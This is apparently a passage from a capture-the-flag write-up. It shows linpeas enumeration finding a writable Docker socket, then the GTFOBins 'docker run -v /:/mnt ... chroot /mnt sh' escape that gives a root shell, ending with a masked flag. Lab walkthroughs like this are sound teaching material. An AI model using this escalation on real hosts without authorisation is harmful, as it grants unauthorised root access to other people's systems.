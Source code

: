 ```bash
          ▀▀▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▀▀▀▀▀▀
               ▀▀▀▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▀▀
                     ▀▀▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀▀

    /---------------------------------------------------------------------------\
    |                             Do you like PEASS?                            |             
    |---------------------------------------------------------------------------|             
    |         Become a Patreon    :     https://www.patreon.com/peass           |             
    |         Follow on Twitter   :     @carlospolopm                           |             
    |         Respect on HTB      :     SirBroccoli                             |             
    |---------------------------------------------------------------------------|             
    |                                 Thank you!                                |             
    \---------------------------------------------------------------------------/             
          linpeas-ng by carlospolop                                                           
                                                                                              
ADVISORY: This script should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own computers and/or with the computer owner's permission.
                                                                                              
Linux Privesc Checklist: https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist                                                                                        
 LEGEND:                                                                                      
  RED/YELLOW: 95% a PE vector
  RED: You should take a look to it
  LightCyan: Users with console
  Blue: Users without console & mounted devs
  Green: Common things (users, groups, SUID/SGID, mounts, .sh scripts, cronjobs) 
  LightMagenta: Your username

 Starting linpeas. Caching Writable Folders...
```

it shows that i can escalate privilege using docker since the docker is writable

```bash
/lib/systemd/system/uuidd.socket is calling this writable listener: /run/uuidd/request
Docker socket /var/run/docker.sock is writable (https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-docker-socket)
```

i used docker from gtfobins to escalate privilege

[https://gtfobins.github.io/gtfobins/docker/](https://gtfobins.github.io/gtfobins/docker/)

```bash
anurodh@ubuntu:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```

```bash
root@60d523756f1e:~# cat proof.txt 

                                        {ROOT-FLAG: ********************************}

Congratulations! You have successfully completed the challenge.

         ,-.-.     ,----.                                             _,.---._    .-._           ,----.  
,-..-.-./  \==\ ,-.--` , \   _.-.      _.-.             _,..---._   ,-.' , -  `. /==/ \  .-._ ,-.--` , \ 
|, \=/\=|- |==||==|-  _.-` .-,.'|    .-,.'|           /==/,   -  \ /==/_,  ,  - \|==|, \/ /, /==|-  _.-` 
|- |/ |/ , /==/|==|   `.-.|==|, |   |==|, |           |==|   _   _\==|   .=.     |==|-  \|  ||==|   `.-. 
```